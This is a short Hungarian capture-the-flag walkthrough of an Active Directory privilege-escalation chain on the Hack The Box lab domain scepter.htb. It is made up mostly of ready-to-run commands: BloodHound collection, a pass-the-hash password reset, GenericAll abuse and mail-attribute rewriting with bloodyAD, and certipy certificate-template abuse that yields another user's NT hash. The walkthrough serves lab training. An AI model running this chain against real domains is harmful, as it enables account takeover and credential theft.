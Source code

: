 ## Bloodhound & Privilege Escalation Chain

**Bloodhound futtatása:**
```bash
sudo bloodhound-python    -u 'd.baker'    -d scepter.htb    -k -no-pass    -dc dc01.scepter.htb    -ns 10.10.11.65    --dns-tcp    --disable-autogc    -c all --zip
```
**Találat:**  
- d.baker user tud **force change password-ot** végrehajtani a.carter-en.

---

## Force Change Password - a.carter user

```bash
pth-rpcclient -U 'SCEPTER\d.baker%aad3b4...:18b5fb...' 10.10.11.65 -c "setuserinfo2 a.carter 23 'NoSecHere!'"
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

---

## GenericAll StaffAccessCertificate OU felett

```bash
bloodyAD -d scepter.htb -u a.carter -p 'NoSecHere!' --host dc01.scepter.htb --dc-ip 10.10.11.65 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
```

---

## Permission teszt: mail attribútum írás

```bash
bloodyAD -d scepter.htb -u a.carter -p 'NoSecHere!' --host dc01.scepter.htb set object d.baker mail -v h.brown@scepter.htb
```
Ha sikeres: jog rendben.

---

## StaffAccessCertificate template abuse

```bash
certipy req -username "d.baker@scepter.htb" -hashes :18b5fb... -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
```

---

## NT hash szerzése h.brown userhez

```bash
certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
```
Hash: `aad3b4...:4ecf52...`

---